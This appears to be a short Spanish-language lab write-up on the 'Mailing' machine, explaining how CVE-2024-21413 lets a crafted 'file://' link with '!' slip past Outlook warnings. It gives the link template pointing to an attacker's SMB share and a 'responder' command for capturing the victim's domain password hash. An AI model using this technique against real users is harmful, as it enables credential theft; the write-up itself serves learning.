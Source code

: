 
Hoy aprendí varias cosas con la maquina Mailing, resulta que era mucho mas interesante de lo que parecia, esta maquina contiene la reciente vulnerabilidad CVE-2024-21413, que consiste en enviar un hipervinculo trucado pro el cual outlook no avisa sobre posibles riesgos, esto se consigue usando el simbolo "!".

Esto funciona en directorio activo ya que los usuarios, al tener unas cuentas predefinidas, cuando le dan click en "file://\\IP\RECURSO\ARCHIVO_COMPARTIDO" el sistema se autentica usando las credenciales del usuario del computador el cual dio click, es decir, el usuario definido por el Domain controller, y ya esto se puede obtener el hash usando la herramienta 

	responder -I eth0 -dw 

o con un servidor smb usando impacket-smbserver sin poner credenciales (eso es importante)

